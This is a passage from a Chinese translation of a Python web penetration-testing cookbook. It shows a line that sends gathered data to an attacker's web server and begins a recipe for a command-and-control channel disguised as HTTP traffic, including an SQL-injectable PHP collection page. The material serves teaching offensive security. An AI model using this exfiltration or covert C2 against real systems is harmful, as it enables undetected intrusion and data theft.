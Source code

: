 ```py
requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```

这使用`urllib.encode`将字典转换为 URL 编码的键/值对。这意味着任何可能影响 URL 的字符，例如`&`或`=`，将被转换为它们的 URL 编码等效形式，例如`%26`和`%3D`。

请注意，脚本端不会有任何输出；一切都通过 HTTP 请求传递到攻击者的 Web 服务器（示例使用本地主机的端口`8000`）。`GET`请求如下所示：

![工作原理…](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-web-pentest-cb/img/B04044_08_01.jpg)

# 创建一个 HTTP C2

在 URL 中公开您的命令的问题是，即使是半睡不醒的日志分析员也会注意到它。有多种方法可以隐藏请求，但是当您不知道响应文本将是什么样子时，您需要提供一种可靠的方法来伪装输出并将其返回到您的服务器。

我们将创建一个脚本，将命令和控制活动伪装成 HTTP 流量，从网页评论中获取命令，并将输出返回到留言簿中。

## 入门

为此，您需要一个正常运行的 Web 服务器，其中包括两个页面，一个用于托管您的评论，另一个用于托管检索页面。

您的评论页面应该只包含标准内容。为此，我使用 Nginx 默认主页，并在末尾添加评论。评论应表达为：

```py
<!--cmdgoeshere-->
```

检索页面可以非常简单：

```py
<?php

$host='localhost';
$username='user';
$password='password';
$db_name="data";
$tbl_name="data";

$comment = $_REQUEST['comment'];

mysql_connect($host, $username, $password) or die("Cannot contact server");
mysql_select_db($db_name)or die("Cannot find DB");

$sql="INSERT INTO $tbl_name VALUES('$comment')";

$result=mysql_query($sql);

mysql_close();
?>
```

基本上，这个 PHP 所做的是接收`POST`请求中名为`comment`的传入值，并将其放入数据库中。这非常基础，如果您有多个 shell，它不会区分多个传入命令。

## 如何做…
